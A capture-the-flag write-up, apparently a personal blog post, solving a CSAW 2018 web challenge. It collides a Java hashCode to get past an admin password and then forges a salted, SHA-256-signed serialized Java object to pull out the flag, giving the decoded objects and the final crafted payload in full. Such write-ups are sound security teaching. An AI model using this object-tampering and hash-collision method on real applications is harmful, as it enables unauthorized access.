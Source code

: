 ```yaml
---
layout: post
title:  "CSAW Quals 2018"
subtitle: 'Web 300 - Java Serialization'
date:   2017-09-18 00:06:31
tags:
- Web, Java Serialization

---
```


So after a break from last year on writing <a href="https://gokulkrishna01.wordpress.com/">blogs</a>, I thought of writing blog for this particular challenge for the reason that the time it took to get solved and also the method involved to solve this particular challenge.

The challenge description was `Not My Cup of Coffee, I heard you liked food based problems, so here's a liquid one.`
<a href="http://web.chal.csaw.io:8616"> Challenge Link</a>

Clicking on the link directs us to home where they have some beans already present in a table in which scrolling down shows `Flag` which we are interested in.
<figure class="foto-legenda">
	<img src="../assets/ctfwriteup/Welcome_screen.png" alt="">
</figure>

Below that there was a link to the `admin` panel which led to a password protected page. When I tried entering random values, it showed incorrect. For a moment, I thought it would be injection but did not seem to work out.

Later, going back to the main page had an option of `Start breeding` wherein there is a coloumn where there were two fields to enter our input and another two boxes containing parent1 and parent2. Randomly tried giving in some input and gave the default parent which was `Covfefe` with the name as `bi0s`.
Redirecting to the home page and scrolling down showed us that our value got input with a description as well of `Covfefe`. Since there was `Flag` below that, my essential aim was to see which parent's description was inherited and bingo, it was parent1. Also we were able to see that the parent list in the `Start Breeding` page had new options being added with the Name that we gave before.

<figure class="foto-legenda">
	<img src="../assets/ctfwriteup/flagbreed.png" alt="">
</figure>

Later on going through the source code revealed that there was something next to the option, which was more of like a alphanumeric string seperated by a hash. Was able to get that the first was a base64 string and the second, some hex string. Decoding the base64 string of one of the options, here I took `Covfefe`, revealed a string.

<figure class="foto-legenda">
	<img src="../assets/ctfwriteup/base64_option.png" alt="">
</figure>

{% highlight python %}
In [2]: base64.b64decode("rO0ABXNyABJjb2ZmZWUuQ292ZmVmZUJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb
   ...: 2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAHQ292ZmVmZXBw")
Out[2]: '\xac\xed\x00\x05sr\x00\x12coffee.CovfefeBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07parent1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x07Covfefepp'
{% endhighlight %}

So after a bit of traversal through the web site, there was a request to `admin.jsp` and going to that (http://web.chal.csaw.io:8616/admin.jsp) dumped the password with a `$` sign in between.

{% highlight java %}
String result;
26:           // NOTE: Change $ to s when page is ready
27:           auth.loadPassword("Pas$ion");
28:           if (!guess.matches("[A-Za-z0-9]+")) {
29:             result = "Only alphanumeric characters allowed";
30:           } else {
31:             result = auth.lookup(guess.hashCode());
{% endhighlight %}

but since JavaCodes are deterministic, we can create one that matches this and that was `ParCipO`.

<figure class="foto-legenda">
	<img src="../assets/ctfwriteup/Password_screen.png" alt="">
</figure>

Logging in to the admin page with this string

<figure class="foto-legenda">
	<img src="../assets/ctfwriteup/Key.png" alt="">
</figure>

gave me a key which was `c@ram31m4cchi@o`. Also, we had a hash appended towards the end of the serialized beans. After a bit of digging, I found that the hash appended was just a salt and not anything else. Now basically I had to craft a payload which contains the keyword `Flag` in it, appended with the salt.

The next thing was crafting the `parent1` as `payload + "-" + sha256sumhex(payload + salt)` where `salt` was `c@ram31m4cchi@o`. Essentially, crafting the payload was a bit task so in the beginning, my team-mate <a href="https://twitter.com/heerajnair"> Heeraj</a> and I had thought of replacing `Covfefe` with `Flag` and had sent request by modifying `parent1` but yielded no result. Then what we had thought was the string length of `Flag` with that of `Covfefe`. Yes, it is different and hence would alter the structure. So the very next moment, we took the base64 of `Raid`, updated with `Flag` and appended the hash that was to be appended which was `6715801eb21604db3f35709ff86ee6ac86e75bab042d2e4fced219c7a130763c`.

{% highlight python%}
In [3]: base64.b64decode("rO0ABXNyAA9jb2ZmZWUuUmFpZEJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZ
   ...: WUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAEUmFpZHBw")
Out[3]: '\xac\xed\x00\x05sr\x00\x0fcoffee.RaidBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07parent1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x04Raidpp'

In [4]: str = "\xac\xed\x00\x05sr\x00\x0fcoffee.FlagBean\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x00xr\x00\x0bcoffee.Bean\x00\x00\x
   ...: 00\x00\x00\x00\x00\x01\x02\x00\x04L\x00\x07inheritt\x00\rLcoffee/Bean;L\x00\x04namet\x00\x12Ljava/lang/String;L\x00\x07pare
   ...: nt1q\x00~\x00\x02L\x00\x07parent2q\x00~\x00\x02xppt\x00\x04Flagpp'"
{%endhighlight%}

So the final string that had to be sent to the server in `parent1` was
{%highlight python %}
 `rO0ABXNyAA9jb2ZmZWUuRmxhZ0JlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAERmxhZ3Bw-6715801eb21604db3f35709ff86ee6ac86e75bab042d2e4fced219c7a130763c`.
{% endhighlight %}

Bingo, modifying the request of `parent1` with the parameter of `Name` filled gives us the flag

<figure class="foto-legenda">
	<img src="../assets/ctfwriteup/burpfinal.png" alt="">
</figure>

`flag{yd1dw3wr1t3th15j@v....`

Reach me out on <a href="https://twitter.com/gkgkrishna33">Twitter</a> for more updates.

